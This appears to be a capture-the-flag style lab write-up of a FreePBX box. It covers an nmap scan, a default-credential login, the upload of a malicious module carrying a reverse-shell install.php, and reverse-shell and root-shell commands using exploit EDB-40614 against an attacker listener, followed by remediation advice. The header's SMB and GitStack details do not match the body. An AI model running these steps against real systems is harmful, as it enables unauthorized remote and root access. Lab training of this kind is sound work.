









#  PBX01 - Virtual Hacking Lab

| Info          | Details                                   |
| ------------- | ----------------------------------------- |
| Platform      | Virtual Hacking Lab                       |
| Difficulty    | Advanced                                  |
| Target IP     | 10.11.1.117                               |
| OS            | Linux                                     |
| Vulnerability | SMB (Eternal Blues) & GitStack Web 2.3.10 |
| Tools Used    | Nmap, Gobuster, Searchsploit              |

## Attack Path

1. Reconnaissance — Active port scanning and service fingerprinting with Nmap.
2. Enumeration — Web application fingerprinting, manual browsing, and version identification across all discovered services.    
3. Vulnerability Identification — Default credential testing; research of known CVEs for identified software versions; **Searchsploit** queries.
4. Exploitation (Initial Access) — Default credential abuse; malicious FreePBX module constructed and deployed for RCE as asterisk user.
5. Privilege Escalation — Public FreePBX exploit (EDB-40614) executed to obtain root shell.
6. Reporting — All findings documented with evidence, commands, and actionable remediation guidance.

## Environment Setup

A structured working directory was created prior to enumeration to organize output logs and artefacts throughout the engagement.

```bash
mkdir pbx01
cd pbx01
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning

A full TCP port scan was conducted with service version detection and default Nmap scripts enabled. The -Pn flag skipped host discovery to ensure all ports were scanned regardless of ICMP response. Results were saved for reference.

```bash
ip='10.11.1.117'

## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



**Results:** 
- Port 22 - SSH with version OpenSSH 5.3
- Port 53 - tcpwrapped
- Port 80 - Primary Web Application
- Port 443- Secondary Web Application
- Port 5038 - Asterisk Call Manager 1.3
- Port 8089 - Asterisk Call Manager 11.22.0

## Web Enumeration

Primary Web Application Enumeration:



**Results:** Browsing to port 80 on the target displayed the FreePBX web interface landing page. Navigation to the FreePBX Administration link presented an authentication form protecting the administrative dashboard. FreePBX is a widely deployed open-source web GUI for managing Asterisk PBX systems.



First try weak passwords, `admin::admin`



**Results:** Successfully logged in

## Exploitation – Malicious FreePBX Module Upload

In the website, found a page which i can upload a module. 

`Admin -> Module Admin -> Upload Module`

### Creating a Malicious Module

Create a Malicious module:

```bash
# create a directory
mkdir evilmodule

# Create a module.xml
echo '<module>
  <rawname>evilmodule</rawname>
  <name>Evil Module</name>
  <version>1.0</version>
  <type>setup</type>
  <category>Admin</category>
  <description>Test module</description>
</module>' > module.xml

# Copy monkeyPentest code and save it as install.php
cp /home/kali/reverse.php install.php

# Package the module. 
tar -czf evilmodule.tar.gz evilmodule
```

Next, upload the module into the **Admin Module**


After successfully uploaded, install the module.


`Install -> Process`


```bash
# Open a listener
sudo nc -lnvp 4444
```

Results: Successfully got a reverse shell



```bash
# Users identification
whoami
id
```



**Results:** Display users `asterisk`. Also from the output find out there's a new mail.

Alternative to access local remote shell:

The same exploit supports an alternative mode delivering a low-privilege interactive local shell. This mode was tested to document the full capability of the exploit and to demonstrate that even without the root escalation path, persistent interactive access to the target is achievable.


```bash
python2 40614.py -u http://10.11.1.117 -l 172.16.1.3 -p 4444 -s l
```



**Result**: Low-privilege interactive shell returned. 

# Linux Privilege Escalation

```bash
searchsploit FreePBX
```



**Results**: Found an exploit could use for privilege escalations

The exploit was executed in root shell mode, specifying the target URL, attacker listener IP, listener port, and the -s r flag to request a root-level shell. 

```bash
## Execute the exploit
python2 40614.py -u http://10.11.1.117 -l 172.16.1.3 -p 4444 -s r
```



# **Remediation**

### **1. Authentication & Access Control**

- Replace default credentials (`admin:admin`) with strong, unique passwords
- Enforce MFA for administrative access to FreePBX
- Restrict admin panel access via IP allowlisting or VPN-only access

---

### **2. FreePBX Security Hardening**

- Disable or restrict **module upload functionality** to trusted administrators only
- Validate and sign modules before installation
- Upgrade to the latest secure version of FreePBX

---

### **3. Patch Known Vulnerabilities**

- Apply patches for **FreePBX privilege escalation (EDB-40614)**
- Regularly update Asterisk and related services
- Remove or disable outdated components and unused services

---

### **4. Privilege Management**

- Run services (e.g., asterisk) with least privilege
- Prevent privilege escalation by auditing SUID binaries and misconfigurations
- Monitor abnormal privilege escalation attempts

---

### **5. Network Security**

- Restrict access to sensitive ports (e.g., 5038, 8089)
- Implement firewall rules to limit exposure of PBX services
- Use network segmentation to isolate VoIP infrastructure